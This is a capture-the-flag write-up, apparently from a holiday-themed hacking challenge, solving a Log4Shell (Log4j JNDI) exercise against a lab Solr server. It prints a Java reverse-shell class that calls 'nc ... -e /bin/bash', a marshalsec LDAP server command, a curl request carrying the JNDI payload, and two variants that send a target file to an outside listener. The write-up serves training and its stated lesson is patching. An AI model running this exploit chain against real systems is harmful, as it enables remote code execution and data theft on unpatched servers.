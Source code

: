 <h1 id="bonus-red-log4jack">Bonus Red Log4Jack</h1>
<p><strong>Location: North Pole</strong><br>
<strong>Troll: Icky McGoop</strong></p>
<p>This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.<br>
Multiple terminal session are created automatically, one running a web server serving from <code>/home/troll/web</code> on port 8080, another one running a netcat listener on port 4444.</p>
<p>The objective is to retrieve the file <code>/home/solr/kringle.txt</code> from a web service running solr on <a href="http://solrpower.kringlecastle.com:8983/">http://solrpower.kringlecastle.com:8983/</a>.</p>
<p>First a Java class <code>Joergen</code> creating a reverse shell is created:</p>
<pre><code>public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.<br>
This is placed in the web tree, so that the web server is able to hand out this class.<br>
Next the <a href="https://github.com/mbechler/marshalsec">marshalsec</a> installation residing in <code>/home/troll/marshalsec</code>  is started:</p>
<pre><code>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
</code></pre>
<p><em>WEBSERVERIP</em> has to be replaced with the terminal’s IP address.<br>
This application acts as an LDAP server and uses the Java class on the web server as remote code base.</p>
<p>Finally the Log4J vulnerability is triggered:</p>
<pre><code>curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
</code></pre>
<p><em>MARSHALSECIP</em> has to be replaced with the terminal’s IP address.</p>
<p>This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file <code>kringle.txt</code> to be retrieved.</p>
<pre><code>cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
</code></pre>
<p>So <strong>patching</strong> is the solution.</p>
<h3 id="alternative-1-just-reading-the-targeted-file">Alternative 1: just reading the targeted file</h3>
<pre><code>import java.io.*;
import java.nio.file.*;
public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<h3 id="alternative-2-pure-java-solution">Alternative 2: pure Java solution</h3>
<pre><code>import java.io.*;
import java.nio.file.*;
import java.net.Socket;
public class Joergen {
  static {
    try {
	  Socket socket=new Socket("CLIENTIP",4444);
	  PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<p><strong>Achievement: Log4J Red Bonus</strong></p>

